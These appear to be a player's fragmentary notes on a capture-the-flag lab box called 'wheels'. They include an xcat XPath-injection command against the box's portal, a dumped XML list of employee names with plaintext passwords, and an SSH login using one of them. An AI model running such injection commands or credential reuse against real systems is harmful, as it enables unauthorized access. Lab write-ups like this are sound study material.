

register as admin


no admin


emp portal


assets


wheels.service


reg service


emp portal success


search car


search bike


sqli/xxe?


https://xcat.readthedocs.io/

`xcat run http://wheels.service/portal.php --headers=headers.txt work work=bike --true-string=dan`


```
<works>
	<work>
		<id>
			1
		</id>
		<employee>
			bob
		</employee>
		<password>
			Iamrockinginmyroom1212
		</password>
		<service>
			car
		</service>
	</work>
	<work>
		<id>
			2
		</id>
		<employee>
			alice
		</employee>
		<password>
			iamarabbitholeand7875
		</password>
		<service>
			car
		</service>
	</work>
	<work>
		<id>
			3
		</id>
		<employee>
			john
		</employee>
		<password>
			johnloveseverontr8932
		</password>
		<service>
			car
		</service>
	</work>
	<work>
		<id>
			4
		</id>
		<employee>
			dan
		</employee>
		<password>
			lokieismyfav!@?12
		</password>
		<service>
			bike
		</service>
	</work>
	<work>
		<id>
			5
		</id>
		<employee>
			alex
		</employee>
		<password>
			alreadydead???234
		</password>
		<service>
			bike
		</service>
	</work>
	<work>
		<id>
			6
		</id>
		<employee>
			selene
		</employee>
		<password>
			lasagama90809!@
		</password>
		<service>
			bike
		</service>
	</work>
</works>
```

`$ ssh bob@wheels.pg`





TODO: Study up on BO's